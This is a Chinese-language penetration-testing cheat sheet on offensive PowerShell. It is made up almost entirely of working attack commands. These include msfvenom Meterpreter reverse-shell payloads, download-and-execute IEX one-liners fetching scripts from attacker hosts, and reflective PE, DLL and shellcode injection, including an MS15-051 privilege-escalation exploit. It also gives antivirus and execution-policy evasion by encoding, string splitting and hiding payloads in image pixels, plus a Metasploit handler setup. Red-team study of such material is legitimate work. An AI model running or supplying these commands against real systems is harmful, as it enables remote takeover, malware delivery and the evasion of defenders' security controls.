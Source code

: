     查看版本$PSVersionTable
 #### 远程执行
	>powershell -nop -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('');Invoke-xxx"
![image](/assets/Pentest_Note/master/img/100.png)
 #### 加载exe
	msfvenom生成exe木马
	>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.0.107 lport=4444 -f exe > /var/www/html/1.exe  
	使用powersploit的Invoke-ReflectivePEInjection.ps1脚本
	>powershell.exe -w hidden -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/clymberps/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1');Invoke-ReflectivePEInjection -PEUrl http://192.168.0.107/1.exe -ForceASLR" 
 #### EXE2PS1
	http://192.168.0.107/ps/powersploit/CodeExecution/Convert-BinaryToString.ps1
	将exe转换为base64
	>Import-Module .\Convert-BinaryToString.ps1
	>Convert-BinaryToString -FilePath .\ms15051.exe
![image](/assets/Pentest_Note/master/img/101.png)

	http://192.168.0.107/ps/powersploit/CodeExecution/Invoke-ReflectivePEInjection.ps1
	Invoke-ReflectivePEInjection.ps1文件头部添加
	Function MS15051{
	<#
	.SYNOPSIS    
	.EXAMPLE
    C:\PS> MS15051 -Command "whoami"
	#>
	 [CmdletBinding()]
	    param(
	        [Parameter(Mandatory = $False)]
	        [string]
	        $Command
      )
	$InputString = "文件的base64编码"
	$PEBytes = [System.Convert]::FromBase64String($InputString)
	文件尾部添加
	write-host ("[+] Executing Command: "+$Command)  -foregroundcolor "Green"
	Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs $Command 
	write-host ("[+] Done !")  -foregroundcolor "Green"
	}
![image](/assets/Pentest_Note/master/img/102.png)

	远程下载执行
	>powershell -nop -w hidden -ep bypass "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.0.107/ps/powersploit/CodeExecution/ms15051.ps1'); MS15051 –Command \"whoami\""
![image](/assets/Pentest_Note/master/img/103.png)
 #### 绕过策略
	>powershell Set-ExecutionPolicy Unrestricted需管理员权限，不受限执行
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/Invoke-xxx.ps1');invoke-xxx"
	>powershell -exec bypass -File ./a.ps1&>Import-Module xxx
 ##### Base64
	>use exploit/multi/script/web_delivery|target=2(PSH)
	&
	>cat payload.txt | iconv --to-code UTF-16LE |base64
	>powershell -ep bypass -enc base64code
 ##### 写入bat绕过
	powershell -exec bypass -File ./a.ps1 
	将该命令保存为c.bat
 ##### 拼接拆分字符串
	powershell.exe  
	"
	$c1='powershell -c IEX'; 
	$c2='(New-Object Net.WebClient).Downlo'; 
	$c3='adString("http://192.168.197.192/a.ps1")'; 
	echo ($c1,$c2,$c3) 
	" 
	先将命令拆分为字符串，然后进行拼接。echo修改为IEX执行。
	powershell $c2='IEX (New-Object Net.WebClient).Downlo';$c3='adString(''http://x.x.x.x/a'')'; $Text=$c2+$c3; IEX(-join $Text)
 ##### Replace替换函数
	powershell -noexit "$c1='IEX(New-Object Net.WebClient).Downlo';$c2='123(''http://192.168.0.108/1.ps1'')'.Replace('123','adString');IEX ($c1+$c2)" 
 ##### HTTP字符拼接绕过
	也可以对http字符进行绕过，同样可以bypass
	powershell "$a='IEX((new-object net.webclient).downloadstring("ht';$b='tp://192.168.197.192/a.ps1"))';IEX ($a+$b)"  
 ##### 图片免杀
	通过图片免杀执行powershell的脚本Invoke-PSImage.ps1，主要把payload分散存到图片的像素中,最后到远端执行时,再重新遍历重组像素中的payload执行。
	https://github.com/peewpw/Invoke-PSImage
	1900*1200的图片x.jpg。
	C:\>powershell 
	PS C:\> Import-Module .\Invoke-PSImage.ps1 
	PS C:\> Invoke-PSImage -Script .\a.ps1 -Image .\x.jpg -Out .\reverse_shell.png -Web 
	a.ps1是msf木马，-Out 生成reverse_shell.png图片，-Web 输出从web读取的命令。
	将reverse_shell.png移动至web目录，替换url地址。在powershell下执行即可。
 ##### 加载shellcode
	msfvenom生成脚本木马
	>msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.72.164 LPORT=4444 -f powershell -o /var/www/html/test  
	在windows靶机上运行一下命令
	PS >IEX(New-Object Net.WebClient).DownloadString("http://144.34.xx.xx/PowerSploit/CodeExecution/Invoke-Shellcode.ps1") 
	PS >IEX(New-Object Net.WebClient).DownloadString("http://192.168.72.164/test") 
	Invoke-Shellcode -Shellcode $buf -Force  运行木马 
	使用Invoke-Shellcode.ps1脚本执行shellcode
	即可反弹meterpreter shell
 ##### 加载dll
	使用msfvenom 生成dll木马脚本
	>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.72.164 lport=4444 -f dll -o /var/www/html/test.dll 
	将生成的dll上传到目标的C盘。在靶机上执行以下命令
	PS >IEX(New-Object Net.WebClient).DownloadString("http://144.34.xx.xx/PowerSploit/CodeExecution/Invoke-DllInjection.ps1") 
	Start-Process c:\windows\system32\notepad.exe -WindowStyle Hidden  
	创建新的进程启动记事本，并设置为隐藏
	Invoke-DllInjection -ProcessID xxx -Dll c:\test.dll 使用notepad的PID  
	Msf
	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/reverse_tcp
	>run